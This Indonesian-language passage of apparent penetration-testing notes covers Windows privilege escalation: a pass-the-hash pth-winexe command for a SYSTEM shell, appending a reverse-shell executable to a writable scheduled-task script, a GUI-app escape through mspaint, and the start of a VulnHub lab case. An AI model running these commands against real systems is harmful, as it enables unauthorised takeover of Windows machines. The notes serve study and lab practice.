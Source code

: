 Kalau belum login sebagai admin tambahkan paramter --system
```
pth-winexe --system -U 'admin@aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0' //192.168.1.7 cmd.exe
```


## Scheduled Task
Windows mengizinkan kita untuk melakukan penjadwalan task, sama seperti cron job di linux. Cara untuk mencari ini dengan manual. 

contoh file schedules contoh nama filenya RunThis.ps1
```
# This script will clean up all your old dev logs every minute.
# To avoid permissions issues, run as SYSTEM (should probably fix this later)

Remove-Item C:\DevTools\*.log

```

Lalu cek permissionnya
```
accesschk.exe /accepteula -quv user RunThis.ps1
```

kalau ada WRITE berarti kita bisa masukkan perintah untuk menjalankan reverse shell
```
copy RunThis.ps1 C:\Temp\    #backup file
echo C:\PrivEsc\reverse.exe >> RunThis.ps1 #copy path file to RunThis.ps1
```
Dan tunggu sampai windows mengeksekusi 

## Insecure GUI Apps (Citrix Method)
Pada versi windows yang lama, user bisa di granted untuk menjalanakn GUI apps dengan privilege administrator.

Terdapat berbagai ceara untuk spawn command prompts (reverse shell) dari GUI apps, salah satunya menggunakan fungsi native Windows

#### Recon
```
C:\DevTools>tasklist /V | findstr mspaint.exe
tasklist /V | findstr mspaint.exe
mspaint.exe                   1748 Console                    2     27.924 K Running         DESKTOP-FHFUEUQ\admin                                   0:00:00 Untitled - Paint 
```
Command diatas digunakan untuk melihat program dijalankan oleh siapa, dalam hal ini mspaint.exe dijalankan oleh admin. 

Jika RDP tersedia, maka kita bisa buka mspaint.exe lalu open file cmd, maka kita akan membuka cmd sebagai administrator.

![[insecureGui.PNG]]

### Studi Kasus Scream (VulnHub)
Terdapat aplikasi yang dijalankan oleh Administrator, dan kita memiliki hak akses untuk `net start` dan `net stop`
